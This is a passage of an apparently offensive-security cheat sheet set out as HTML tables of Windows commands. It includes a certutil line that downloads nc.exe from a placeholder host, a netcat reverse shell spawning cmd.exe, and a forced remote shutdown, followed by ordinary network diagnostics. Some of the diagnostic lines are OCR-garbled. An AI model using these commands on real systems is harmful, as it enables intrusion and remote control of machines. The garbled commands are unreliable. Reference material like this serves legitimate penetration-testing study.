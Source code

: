        </td>
     </tr>
      <tr>
       <td style="text-align:left">cmd.exe /c certutil -urlcache -split -f http://ip/nc.exe c:/windows/temp/nc.exe</td>
       <td style="text-align:left">Copy file from ip to current system by cmd.exe</td>
     </tr>
     <tr>
       <td style="text-align:left">cmd.exe /c c:/windows/temp/nc.exe ip port -e cmd.exe</td>
       <td style="text-align:left">Shell reverse</td>
     </tr>
     <tr>
       <td style="text-align:left">nc.exe -lvvp port</td>
       <td style="text-align:left">Listening on specific port </td>
     </tr>
     <tr>
       <td style="text-align:left">python3 -m http.server port</td>
       <td style="text-align:left">Create webserver</td>
     </tr>
     <tr>
       <td style="text-align:left">xcopy /s \\ ip \dir C:\local</td>
       <td style="text-align:left">Copy of ip fodder</td>
     </tr>
     <tr>
       <td style="text-align:left">shutdown /m \\ ip /r /t 0 /f</td>
       <td style="text-align:left">restart system with ip</td>
     </tr>
  </tbody>
</table>

## Network commands

<table>
   <thead>
     <tr>
       <th style="text-align:left"><b>Command</b>
       </th>
       <th style="text-align:left"><b>Description</b>
       </th>
     </tr>
   </thead>
   <tbody>
     <tr>
       <td style="text-align:left">ipconfig I all</td>
       <td style="text-align:left">ip settings</td>
     </tr>
     <tr>
       <td style="text-align:left">ipconfig /displaydns</td>
       <td style="text-align:left">DNS cache</td>
     </tr>
     <tr>
       <td style="text-align:left">netstat -ana</td>
       <td style="text-align:left">Show connection</td>
     </tr>
     <tr>
       <td style="text-align:left">netstat -anop tcp 1</td>
       <td style="text-align:left">Create Netstat loop</td>
     </tr>
     <tr>
       <td style="text-align:left">netstat -ani findstr LISTENING</td>
       <td style="text-align:left">Ports in use</td>
     </tr>
     <tr>